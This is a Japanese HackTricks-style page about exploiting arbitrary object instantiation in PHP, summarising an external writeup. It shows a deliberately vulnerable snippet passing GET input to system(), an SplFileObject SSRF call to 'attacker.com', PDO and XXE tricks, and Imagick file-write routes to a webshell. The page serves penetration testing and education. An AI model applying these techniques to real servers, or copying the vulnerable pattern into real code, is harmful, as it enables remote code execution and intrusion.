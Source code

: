 # PHP - RCE オブジェクト生成の悪用: new $\_GET\["a"]\($\_GET\["b"])

{{#include ../../../banners/hacktricks-training.md}}

これは基本的に [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) の要約です。

## はじめに

`new $_GET["a"]($_GET["a"])` のような新しい任意のオブジェクトの生成は、リモートコード実行 (RCE) につながる可能性があります。これは [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) で詳述されています。この文書では、RCEを達成するためのさまざまな戦略を強調します。

## カスタムクラスまたはオートローディングによるRCE

`new $a($b)` の構文は、**`$a`** がクラス名を表し、**`$b`** がコンストラクタに渡される最初の引数であるオブジェクトをインスタンス化するために使用されます。これらの変数は、GET/POSTのようなユーザー入力から取得されることがあり、文字列や配列である可能性があります。また、JSONから取得される場合は、他の型として表示されることがあります。

以下のコードスニペットを考えてみてください:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
この場合、`$a`を`App`または`App2`に設定し、`$b`をシステムコマンド（例：`uname -a`）に設定すると、そのコマンドが実行されます。

**オートローディング関数**は、そのようなクラスが直接アクセスできない場合に悪用される可能性があります。これらの関数は、必要に応じてファイルからクラスを自動的にロードし、`spl_autoload_register`または`__autoload`を使用して定義されます。
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
オートローディングの動作はPHPのバージョンによって異なり、異なるRCEの可能性を提供します。

## 組み込みクラスによるRCE

カスタムクラスやオートローダーがない場合、**組み込みPHPクラス**がRCEに十分である可能性があります。これらのクラスの数は、PHPのバージョンや拡張機能に基づいて100から200の間です。`get_declared_classes()`を使用してリストできます。

興味のあるコンストラクタは、以下の例とリンク[https://3v4l.org/2JEGF](https://3v4l.org/2JEGF)に示すように、リフレクションAPIを通じて特定できます。

**特定のメソッドによるRCEには以下が含まれます：**

### **SSRF + Pharデシリアライズ**

`SplFileObject`クラスは、そのコンストラクタを通じてSSRFを可能にし、任意のURLへの接続を許可します：
```php
new SplFileObject('http://attacker.com/');
```
SSRFは、Pharプロトコルを使用するPHPの8.0以前のバージョンでデシリアライズ攻撃を引き起こす可能性があります。

### **PDOの悪用**

PDOクラスのコンストラクタは、DSN文字列を介してデータベースへの接続を許可し、ファイルの作成やその他のインタラクションを可能にします：
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

PHPのバージョン5.3.22および5.4.12までが、`SoapClient`および`SimpleXMLElement`コンストラクタを通じてXXE攻撃に対して脆弱であることが確認されました。これはlibxml2のバージョンに依存します。

## RCE via Imagick Extension

**プロジェクトの依存関係**の分析において、**Imagick**が新しいオブジェクトをインスタンス化することで**コマンド実行**に利用できることが発見されました。これは脆弱性を悪用する機会を提供します。

### VID parser

ファイルシステム内の任意の指定されたパスにコンテンツを書き込む能力を持つVIDパーサーが特定されました。これにより、ウェブアクセス可能なディレクトリにPHPシェルを配置し、リモートコード実行（RCE）を達成する可能性があります。

#### VID Parser + File Upload

PHPはアップロードされたファイルを一時的に`/tmp/phpXXXXXX`に保存することが知られています。ImagickのVIDパーサーは、**msl**プロトコルを利用してファイルパス内のワイルドカードを処理でき、一時ファイルを選択した場所に転送することが可能です。この方法は、ファイルシステム内での任意のファイル書き込みを達成するための追加のアプローチを提供します。

### PHP Crash + Brute Force

[**元の解説**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)で説明されている方法では、削除前にサーバーをクラッシュさせるファイルをアップロードします。一時ファイルの名前をブルートフォースすることで、Imagickが任意のPHPコードを実行することが可能になります。ただし、この技術は古いバージョンのImageMagickでのみ効果的であることがわかりました。

## References

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{{#include ../../../banners/hacktricks-training.md}}
